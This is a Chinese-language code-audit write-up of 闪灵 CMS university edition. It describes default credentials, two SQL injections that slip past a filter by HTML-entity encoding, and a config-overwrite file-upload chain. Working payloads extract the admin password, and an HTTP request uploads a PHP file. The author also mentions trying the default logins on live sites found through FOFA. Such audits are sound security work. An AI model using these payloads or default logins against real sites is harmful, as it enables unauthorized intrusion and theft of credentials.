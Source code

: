 

# 奇安信攻防社区 - 闪灵 cms 高校版代码审计

### 闪灵 cms 高校版代码审计

闪灵 cms 代码审计

# 简介

闪灵 cms 高校版是一款 php 开发的智能企业建站系统，该系统能让用户在短时间内迅速架设属于自己的企业网站。建站系统易学易懂，用户只需会上网、不需学习编程及任何语言，只要使用该系统平台，即可在线直接完成建站所有工作。

# 漏洞 1：默认密码

在安装系统完成之后，到数据库就可以看到有几个默认系统用户密码（注意：这里不是管理员用户，只是普通用户，并无进入网站管理后台的权限）。

![图片.png](assets/1698895905-af947278d5495ff521c92d1ccd0677d2.png)

随便找一个密码去解密比如：7FEF6171469E80D32C0559F88B377245

![图片.png](assets/1698895905-1e9cb9d96073fb35bf56657f4e79e02b.png)  
就得到了默认账户 admin/admin888 的登陆口令，现在去登录系统的用户后台。  
[http://localhost/member/member\_login.php](http://localhost/member/member_login.php)

![图片.png](assets/1698895905-19a189d593cd658f19a1e7bece0b9ee3.png)  
ps: 我去 fofa 随便找了几个网站试，成功率还是挺高的，不过得开用户登录后台功能，默认情况下是开启的。一般开启用户登录后台基本都会有这么几个默认用户。

# 漏洞 2：用户后台 update 注入

路径：member/member\_edit.php  
可以看到以下代码，参数都是直接从 post 请求中获取，只是经过了 htmlspecialchars 过滤，然后直接拼接到 sql 语句当中，所以这段代码是存在注入的。

![图片.png](assets/1698895905-0dfc59bb2066dcf0aced50415be2e66b.png)

验证：  
用 navicat 开启 mysql 日志，然后根据日志文件查看 sql 语句执行情况。

```mysql
set global general_log=ON;
show variables LIKE '%general_log%';
```

然后打上单引号看看是否效果如我们预想，发现其实代码还是有做防护的。

![图片.png](assets/1698895905-19aa337b20a1d7484f4c70f9a8b5a0ea.png)

防护代码如下：  
路径：function/function.php  
如下图可见，POST 请求经过了正则表达式的检测，如果匹配到敏感字符将会 die 掉程序终止执行。

![图片.png](assets/1698895905-8440a426023e699b8a2d06103a98ab3d.png)

![图片.png](assets/1698895905-19db8618b373e15d827756414db719ac.png)

但是在 member/member\_edit.php 代码 22 行，参数又经过了 RemoveXSS 函数的过滤。

```php
$M_info=RemoveXSS($_POST["M_info"]);
```

跟进这个函数可以看到这么一段代码，具体而言，这段代码是在处理一个字符串 `$val` 中出现的 HTML 实体编码，将其转换为对应的字符。具体实现方式是通过正则表达式匹配实体编码，并使用 PHP 内置函数 `ord()` 将匹配到的字符转换成 ASCII 码。然后，使用 `dechex()` 将 ASCII 码转换成 16 进制表示。最后，使用 `preg_replace()` 函数将匹配到的实体编码替换成对应的字符。

![图片.png](assets/1698895905-1a625f7523bd1d8d07a4f9a9da7aa37c.png)

那么就可以使用 html 实体编码 sql 注入 payload 用来绕过检测。  
比如'的 html 实体编码为&#39，然后 url 编码一遍可以看到执行语句的日志。可以发现成功的绕过了检测，并且进入数据库的字符也被解码了。  
![图片.png](assets/1698895905-e3b3b42cd0166356428de58077635ae7.png)  
直接上 payload，注入获取管理员密码  
`%26%2339,M_info=(%26%23115elect a_pwd from sl_admin),M_add=%26%2339`  
![图片.png](assets/1698895905-bbd2b0cb005bb7b66547b75f562f48cf.png)

# 漏洞 3：论坛评论 insert 注入

路径：bbs/item.php  
和上个漏洞点形成原因一样只是换了个注入方式。

![图片.png](assets/1698895905-ef1ca7f6f05138018c09f13949e771dc.png)

payload:  
`aaaaa%26%2339,%26%23392023-01-01%26%2339,7,1,1),(%26%2339aaa%26%2339,(%26%23115elect a_pwd from sl_admin), %26%23391010-02-02%26%2339,7,1,1) %23`

![图片.png](assets/1698895905-c62df61a34e0007134bc589feb779f09.png)

# 漏洞 4：管理后台文件上传

这个是一个组合漏洞，因为系统后台虽然可以设置上传文件格式，但是不允许设置 php 这些格式。但是好在过滤是以黑名单的方式，然后该系统又有 ue 编辑器，那么就可以上传一个 json 文件将其原有的 config.json 文件覆盖掉，最后通过 ue 编辑器上传 webshell。

![图片.png](assets/1698895905-dcd3d42a298acddbbe29d2fdb29b6de5.png)

![图片.png](assets/1698895905-f9871b3306ecdbd92e760f6192d137f8.png)

首先在 config.json 文件处加上允许上传 php

![图片.png](assets/1698895905-1045ea56b03407dc0322632bac114f96.png)  
然后到后台修改一下安全配置，设置允许上传 json 格式的文件

![图片.png](assets/1698895905-554773ab2d058be493ff5ec952910943.png)

然后把刚刚修改好的文件上传覆盖掉原有的 config.json 文件  
![图片.png](assets/1698895905-42a89f2d327002d5604af4e4427d761c.png)

最后去 ue 编辑器发个包就大功告成了。

```http
POST /ueditor/php/controller.php?action=uploadfile HTTP/1.1
Host: localhost
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryG33bK0VpwNWgBEHF
Connection: close

------WebKitFormBoundaryG33bK0VpwNWgBEHF
Content-Disposition: form-data; name="upfile"; filename="1.php"
Content-Type: application/octet-stream

<? phpinfo(); ?>
------WebKitFormBoundaryG33bK0VpwNWgBEHF--
```

![图片.png](assets/1698895905-5f49b78fcfdcafa0b4e8a84ba41415b8.png)

![图片.png](assets/1698895905-472d501c5de604053089446330de3008.png)

